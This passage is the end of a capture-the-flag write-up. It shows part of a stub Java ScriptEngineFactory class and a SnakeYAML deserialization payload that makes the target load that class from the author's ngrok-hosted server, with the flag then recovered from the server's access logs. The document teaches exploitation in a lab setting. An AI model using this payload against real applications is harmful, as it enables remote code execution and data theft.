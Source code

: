     public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
{% endhighlight %}

Notice that I used `ngrok` to get a public URL. To exploit the application, we just need to host a server on the port ngrok connects to (run `python -m http.server PORT` in the src directory) and to paste the following payload on the website:

{% highlight bash %}
!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["https://67bed420422b.ngrok.io/"]
  ]]
]
{% endhighlight %}

The flag can be found in our web server's access logs.

**Flag:** ctf{e349fe8389d6ef4caf98d1898a6e1f90528153efa1d7dd7dcecdc4530ded0bcf}